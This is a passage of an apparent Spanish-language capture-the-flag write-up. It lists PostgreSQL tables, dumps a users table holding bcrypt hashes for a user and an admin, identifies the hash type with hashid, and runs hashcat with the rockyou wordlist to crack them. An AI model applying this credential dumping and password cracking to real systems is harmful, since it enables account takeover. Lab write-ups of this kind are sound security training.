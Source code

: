 Listamos todas las tablas con el comando:
```
postgres=# \dt
```
 y observamos:
 ```
          List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)
```

Y por último, seleccionamos todo el contenido de las tablas con:
```
select * from users;
```

Sobre el cual observamos:

```
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Guardamos el contenido DE AMBOS HASHES en un archivo llamado "hash_file":
 ```
└─$ cat hash_file 
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
 ```

Vamos a utilizar "hashid" para analizar el tipo de HASH:
```
┌──(polika4r㉿prm)-[~]
└─$ hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
```

Con hashcat consulto el número de búsqueda que necesito:
https://hashcat.net/wiki/doku.php?id=example_hashes

```
[+] Blowfish(OpenBSD) ---> -m 3200
[+] Woltlab Burning Board 4.x ---> -m 8400
[+] bcrypt ---> -m 3200
```

Vamos a probar con un hashcat en -m 3200:

```
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```
